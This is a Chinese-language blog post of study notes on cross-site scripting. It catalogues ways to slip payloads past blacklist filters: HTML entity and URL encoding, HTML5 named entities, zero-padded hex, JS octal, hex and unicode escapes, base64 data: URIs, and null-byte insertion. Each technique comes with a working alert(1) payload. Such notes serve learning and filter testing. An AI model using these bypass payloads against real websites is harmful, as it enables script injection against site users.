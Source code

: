 ```yaml
---
title: XSS学习笔记1
time: 2016.02.1 17:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结，包括实体编码，js编码，base64编码，和一些绕过黑名单检测的方法，最后还有一个fuzzing的福利^_^
    
---
```

### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
	以下两个表示相同：

		<img src="http://www.example.com"> 
		<img src="ht&#x74;p&#x3a;//www.example.com">
	下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

		<img src&#x3d;"http://www.example.com"> 
		<img s&#x72;c="http://www.example.com">
		
- HTML实体编码有两种，10进制与16进制

	
	{% highlight HTML %}
	如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
	{% endhighlight %} 

- 比如有一个输出点：

		<img src="[代码]"> 
	且过滤了script < > / \ http: 以及各种危险字符。
	
	那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
	构造代码：
		
		<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
	原代码：
		
		<img src="x" onerror="alert(1)">
	这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

	之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器一般是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：
	
		',alert(1)' ＝＝＝》
		html16进制编码 &#x27,alert(1)+&#x27
		＝》》url编码%26%23x27,alert(1)%2b%26%23x27
	说明：url编码用于绕过&＃的过滤

---
###  黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
	{% highlight html %}
	&colon; => [冒号]
	&NewLine; => [换行]
	case: <a href="javasc&NewLine;ript&colon;alert(1)">click</a>
	{% endhighlight %}

2. Hex编码常规变异(增添多个0)
	
		对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
		
		对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）

		对于<可编码为&#x3c
		

---
### Javascript编码
js能识别的编码有：Jsunicode js8进制 js16进制

JS的注入点一般分为两种情况：

1. 输入的值存入某个变量，然后经过一系列变换最后出现在某个能把字符串当做JS代码来执行的函数里。该函数一般为：eval（），setTimeout（），setInterval（）...
2. 还有一种情况就是在一个搜索框内

	比如：
	
		var search = "可控点";
		document.getElementById().innerHTML=search;

对于上述情况，大多数程序都会过滤<> ' " & %等特殊字符

此时，我们就要尝试用js8进制和10进制进行绕过。

对于原代码为：

	<img src=x onerror=alert('xss')>

js八进制编码：
		
		\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\47\170\163\163\47\51\76
js16进制编码：

	\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x78\x73\x73\x29\x3e
 
JSunicode编码： 

	\u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0078\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003e
	
测试以后，都能跳出这个界面：

![image](http://momomoxiaoxi.com/img/post/XSS/2.png)

注：在XSS中，字符数的长短也是一个很重要的问题！越短越好！
在asp的站中插XSS代码的时候，（存储型XSS），经常会因为插入的代码太长，导致数据库字段的长度不够，最终存不进去，报错的情况。所以，XSS的代码越短越好。

---
### base64编码
base64一般用于下列情况
	
	<a href="可控点">
	<iframe src="可控点">
	
如果这种情况下，程序过滤了<> ' " javascript的话，XSS可尝试利用base64编码
	
	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

用chrome测试：
![image](http://momomoxiaoxi.com/img/post/XSS/3.png)

![image](http://momomoxiaoxi.com/img/post/XSS/4.png)

上图，当点击test是，浏览器就会以data协议对text/html进行解析，编码为base64，最终解析为
	
	<img src=x onerror=alert(1)>
然后成功弹窗。

--- 
### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


### 	Fuzzing
![image](http://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
